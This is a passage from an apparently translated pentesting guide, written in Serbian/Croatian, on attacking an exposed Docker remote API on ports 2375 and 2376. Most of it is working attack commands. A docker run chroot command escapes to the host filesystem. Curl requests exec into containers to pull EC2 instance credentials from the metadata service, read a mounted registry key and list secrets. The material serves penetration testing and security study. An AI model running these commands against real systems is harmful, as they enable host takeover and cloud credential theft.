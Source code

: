 ```bash
OS/Arch:          linux/amd64
Experimental:     false
containerd:
Version:          1.2.6
GitCommit:        894b81a4b802e4eb2a91d1ce216b8817763c29fb
runc:
Version:          1.0.0-rc8
GitCommit:        425e105d5a03fabd737a126ad93d62a9eeede87f
docker-init:
Version:          0.18.0
GitCommit:        fec3683
```

Ako možete **kontaktirati udaljeni Docker API pomoću `docker` komande**, možete **izvršiti** bilo koju od **prethodno komentarisanih** [**docker komandi**](2375-pentesting-docker.md#basic-commands) kako biste interagirali sa servisom.

{% hint style="info" %}
Možete `exportovati DOCKER_HOST="tcp://localhost:2375"` i **izbeći** korišćenje `-H` parametra sa docker komandom.
{% endhint %}

**Brzo eskaliranje privilegija**

```bash
docker run -it -v /:/host/ ubuntu:latest chroot /host/ bash
```

**Curl**

Ponekad ćete videti da je **2376** dostupan za **TLS** krajnju tačku. Nisam uspeo da se povežem sa njom pomoću docker klijenta, ali je moguće to uraditi sa curl-om.

```bash
#List containers
curl –insecure https://tlsopen.docker.socket:2376/containers/json | jq
#List processes inside a container
curl –insecure https://tlsopen.docker.socket:2376/containers/f9cecac404b01a67e38c6b4111050c86bbb53d375f9cca38fa73ec28cc92c668/top | jq
#Set up and exec job to hit the metadata URL
curl –insecure -X POST -H "Content-Type: application/json" https://tlsopen.docker.socket:2376/containers/blissful_engelbart/exec -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "Cmd": ["/bin/sh", "-c", "wget -qO- http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance"]}'
#Get the output
curl –insecure -X POST -H "Content-Type: application/json" https://tlsopen.docker.socket:2376/exec/4353567ff39966c4d231e936ffe612dbb06e1b7dd68a676ae1f0a9c9c0662d55/start -d '{}'
# list secrets (no secrets/swarm not set up)
curl -s –insecure https://tlsopen.docker.socket:2376/secrets | jq
#Check what is mounted
curl –insecure -X POST -H "Content-Type: application/json" https://tlsopen.docker.socket:2376/containers/e280bd8c8feaa1f2c82cabbfa16b823f4dd42583035390a00ae4dce44ffc7439/exec -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "Cmd": ["/bin/sh", "-c", "mount"]}'
#Get the output by starting the exec
curl –insecure -X POST -H "Content-Type: application/json" https://tlsopen.docker.socket:2376/exec/7fe5c7d9c2c56c2b2e6c6a1efe1c757a6da1cd045d9b328ea9512101f72e43aa/start -d '{}'
#Cat the mounted secret
curl –insecure -X POST -H "Content-Type: application/json" https://tlsopen.docker.socket:2376/containers/e280bd8c8feaa1f2c82cabbfa16b823f4dd42583035390a00ae4dce44ffc7439/exec -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "Cmd": ["/bin/sh", "-c", "cat /run/secrets/registry-key.key"]}'
#List service (If you have secrets, it’s also worth checking out services in case they are adding secrets via environment variables)
curl -s –insecure https://tls-opendocker.socket:2376/services | jq
#Creating a container that has mounted the host file system and read /etc/shadow
```